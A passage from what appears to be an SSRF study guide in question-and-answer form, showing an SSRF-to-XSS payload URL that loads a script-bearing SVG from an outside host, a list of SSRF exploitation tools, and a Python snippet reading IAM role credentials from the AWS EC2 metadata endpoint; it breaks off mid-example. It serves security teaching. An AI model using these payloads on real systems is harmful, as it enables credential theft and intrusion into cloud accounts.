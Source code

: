 **Answer**: SSRF can be upgraded to XSS by including an SVG file containing JavaScript code. For example:
```
https://example.com/ssrf.php?url=http://brutelogic.com.br/poc.svg
```
When the server processes the URL and renders the SVG file, the embedded JavaScript code executes in the context of the vulnerable application, leading to XSS.

---

## 10. What are some effective tools used for discovering and exploiting SSRF vulnerabilities?

**Answer**:
- **swisskyrepo/SSRFmap**: Automatic SSRF fuzzer and exploitation tool.
- **tarunkant/Gopherus**: Generates gopher links for exploiting SSRF and gaining RCE in various servers.
- **In3tinct/See-SURF**: Python-based scanner to find potential SSRF parameters.
- **teknogeek/SSRF-Sheriff**: Simple SSRF-testing tool written in Go.
- **assetnote/surf**: Returns a list of viable SSRF candidates.
- **dwisiswant0/ipfuscator**: Generates alternative IP(v4) address representations.
- **Horlad/r3dir**: A redirection service designed to help bypass SSRF filters that do not validate the redirect location.

---

### SSRF Deep Exploitation on AWS

Server-Side Request Forgery (SSRF) is a powerful vulnerability that can be exploited to access internal AWS resources, such as the EC2 metadata service, and potentially escalate privileges. Here’s a deep dive into SSRF exploitation on AWS along with some bypass techniques.

---

### Exploitation Techniques

1. **Accessing EC2 Metadata Service**:
   - The EC2 metadata service can be accessed via `http://169.254.169.254/latest/meta-data/`. This endpoint provides sensitive information, including IAM role credentials.
   - Example:
     ```python
     import requests

     url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/your-iam-role"
     response = requests.get(url)
     print(response.text)
     ```

2. **Exploiting IAM Role Misconfigurations**:
   - Misconfigured IAM roles with overly permissive policies can be exploited to gain higher privileges. Attackers can use the credentials obtained from the metadata service to assume other roles or access sensitive resources.

3. **Accessing S3 Buckets**:
   - Unsecured S3 buckets can be accessed directly if they are publicly accessible. Attackers can list, read, or write objects in these buckets.
   - Example:
     ```python
     import boto3
